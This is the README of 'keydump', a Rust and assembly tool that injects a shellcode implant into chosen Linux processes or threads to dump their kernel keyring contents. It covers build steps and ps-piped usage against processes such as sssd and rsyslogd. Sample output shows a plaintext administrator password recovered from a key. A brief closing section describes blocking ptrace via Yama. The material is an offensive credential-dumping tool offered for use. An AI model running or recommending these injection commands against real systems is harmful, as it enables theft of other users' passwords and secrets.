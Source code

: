 # keydump

A tool to dump the keys from the Linux Key Management facility, usually known as
Linux keyrings. 

Since many keys are restricted to only be accesible by a process or threads,
this tool will inject a shellcode implant into the specified target processes or
threads in order to dump the keys.

The shellcode implant was created based on
[shellnova](https://github.com/zer1t0/shellnova).

## Build


In order to build the tool, several dependencies are required to compile both
the main program (rust) and the implant (C and assembly):

1. [Install rust](https://www.rust-lang.org/tools/install)

```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

2. Install implant dependencies
```
sudo apt install cmake nasm build-essential python3-pip
pip install -r keydump/implant/scripts/requeriments.txt
```

Once the dependencies were installed, we can build the software with:
```
cargo build --release
```
This command should create the binary in `keydump/target/release/keydump`
that you can copy whatever you want.

Note: Be sure to compile the project in an environment similar to the one in
which the project will be executed.

## Use

Without arguments, the program will dump the keys that are reachable by the
current context and store them in a folder:

```
$ ./keydump
Files written to /tmp/k_self_1000
$  ls /tmp/k_self_1000/
16263150_keyring__ses__1           329bb7fc_keyring__uid_1000__empty
16853a8f_keyring__uid_ses_1000__1  ae6920f_keyring__ses__1
```

On the other hand, if you pass one or several PIDs to the program as input, it
will dump the keys reached by those processes. You can pass them by stdin by
specifying the `-` character.

In order to specify pids, you can use the `ps` command to list processes with
different filters.

The tool is intended to be used as root, but can be useful as a regular user to
dump keys of other sessions.

Example: Dumping keys of sssd process.

```
$ ps -o pid --no-headers -C sssd | sed 's/ //g' | sudo ./keydump -
[PID 452] Shellcode injected
[PID 452] /tmp/k_452 exists, so keys must be dumped!!
$ sudo cat /tmp/k_452/210e3b29_user_Administrator_dev_lab__10
S3cur3p4ss
```

Example: Keys of all sessions of one user (named user): 

```
$ ps -dNo user,pid,sid | grep -E "^user +" | awk '{ print $2 }' | sudo ./keydump -
[PID 767] Shellcode injected
[PID 787] Shellcode injected
[PID 767] /tmp/k_767 exists, so keys must be dumped!!
[PID 787] /tmp/k_787 exists, so keys must be dumped!!
```

Example: Keys of all process threads.
```
$ ps -o lwp --no-headers -LC rsyslogd | awk '{ print $1 }' | sudo ./keydump -
[PID 450] Shellcode injected
[PID 456] Shellcode injected
[PID 457] Shellcode injected
[PID 458] Shellcode injected
[PID 450] /tmp/k_450 exists, so keys must be dumped!!
[PID 456] /tmp/k_456 exists, so keys must be dumped!!
[PID 457] /tmp/k_457 exists, so keys must be dumped!!
[PID 458] /tmp/k_458 exists, so keys must be dumped!!
```

## Supported architectures

Since the implant shellcode is partially programmed in assembly only the
following architectures are supported:

- [x] amd64
- [ ] x86 (32 bits)
- [ ] ARM

## How to protect from this tool

In order to avoid root, or any user with the `CAP_SYS_PTRACE` capability, to
attach to other processes with ptrace, it is possible to indicate
[Yama](https://www.kernel.org/doc/html/latest/admin-guide/LSM/Yama.html) to
block ptrace:
```
echo 3 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```

An alternative could be protecting the environment with SELinux, but I'm not an
expert in that topic.
